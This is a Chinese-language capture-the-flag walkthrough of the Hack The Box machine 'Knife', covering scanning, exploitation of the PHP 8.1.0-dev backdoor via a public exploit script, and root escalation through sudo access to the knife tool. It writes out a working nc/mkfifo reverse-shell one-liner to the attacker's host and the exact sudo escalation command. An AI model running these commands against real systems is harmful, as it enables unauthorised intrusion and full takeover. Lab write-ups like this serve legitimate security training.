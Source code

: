 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务探测
```
┌──(root💀kali)-[~/htb/Knife]
└─# nmap -sV -Pn 10.10.10.242    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-27 23:34 EST
Nmap scan report for 10.10.10.242
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.42 seconds
```

## 目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://10.10.10.242

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/dirsearch/reports/10.10.10.242/_21-11-27_23-34-49.txt

Error Log: /root/dirsearch/logs/errors-21-11-27_23-34-49.log

Target: http://10.10.10.242/

[23:34:50] Starting:  
[23:36:09] 200 -    6KB - /index.php                                        
[23:36:09] 200 -    6KB - /index.php/login/                                 
```

好像没有啥特别有用的页面或者目录


## 源代码审查

没看出来有啥有用的东西


## 软件版本枚举

80端口是一个叫EMA的网站展示页，查了一下，EMA就是Emergent Medical Associates，紧急医疗服务。没看出来有用啥明显的cms
Apache版本没看到有啥有用的漏洞
ssh版本没看到有啥有用的漏洞

# 初始shell

查看站点信息：
```
┌──(root💀kali)-[~/htb/Knife]
└─# whatweb -a 3 http://10.10.10.242/                                 
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]  
```

看到网站用的是```PHP/8.1.0-dev```版本，在谷歌搜索发现这个开发版本存在一个backdoor，我们使用[这个攻击脚本](https://www.exploit-db.com/exploits/49933)拿初始shell

把攻击代码下载到本地，发动攻击：
```
┌──(root💀kali)-[~/htb/Knife]
└─# python3 499933.py                                                                     
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james

```

拿到一个初始shell

拿到user.txt
```
$ find / -name user.txt
/home/james/user.txt

```

# 提权
查看sudo特权
```
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

可以无密码使用knife

我们使用下面命令提权到root
> sudo /usr/bin/knife exec -E 'exec "/bin/sh"'

返回：
```
$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
No input file specified.

```



经过测试我们发现exp并不是一个完整的shell，很多命令不能正确执行

查看当前用户家目录，发现有ssh登录凭证
```
$ ls -alh /home/james/.ssh
total 16K
drwx------ 2 james james 4.0K May 18  2021 .
drwxr-xr-x 5 james james 4.0K May 18  2021 ..
-rw------- 1 james james 3.4K May  7  2021 id_rsa
-rw-r--r-- 1 james james  741 May  7  2021 id_rsa.pub

```

把公钥加到靶机id_rsa.pub，把私钥下载到本地，用ssh -i登录，发现还是要使用密码，查看ssh配置```/etc/ssh/sshd_config```,发现没有开启私钥登录设置

好像又走到死胡同。。

然后一个个枚举反弹完整的shell到kali，发现下面这个payload是可以运行的

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4242 >/tmp/f

拿到root.txt

```
┌──(root💀kali)-[~/htb/Knife]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.242] 38954
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "__import__('pty').spawn('/bin/bash')"
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'

sudo /usr/bin/knife exec -E 'exec "/bin/sh"'

# # id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
{逗你玩儿~}

```